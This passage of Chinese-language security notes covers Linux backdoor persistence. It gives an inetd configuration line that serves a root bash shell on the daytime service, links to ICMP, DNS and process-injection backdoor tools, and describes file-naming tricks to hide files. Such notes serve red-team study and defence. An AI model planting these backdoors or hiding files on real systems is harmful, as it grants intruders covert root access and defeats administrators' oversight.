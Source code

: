 ![image-20231015225609770](../images/image-20231015225609770.png)

配置解释

```bash
<service_name> <sock_type> <proto：TCP/UDP> <flags> <user> <server_path：绝对路径> <args>
daytime stream tcp nowait root /bin/bash bash -i # 当外部请求名为daytime的服务时就弹shell
```

更改的话只需要修改service_name和nc连接的端口，服务与端口的映射关系在`/etc/services`中



## ICMP后门

https://github.com/andreafabrizi/prism



## DNS后门

https://github.com/DamonMohammadbagher/NativePayload_DNS
https://github.com/iagox86/dnscat2
http://code.kryo.se/iodine



## 进程注入

https://github.com/gaffe23/linux-inject
https://sourceforge.net/projects/cymothoa/files/
https://github.com/screetsec/Vegile



## 隐藏文件/目录技巧

- 创建以.开头的隐藏文件

  用`ls -a`才能看到

- 建立文件名为`...`的文件

- 参数混淆

  > 下面两种方法可以使用`rm -- -rm`删除

  - 建立文件名为`-rm`的文件

  ![image-20231015223351352](../images/image-20231015223351352.png)

  

  - 建立文件名为`--`的文件

    ![image-20231015223510528](../images/image-20231015223510528.png)

    既不报错，也没有删除
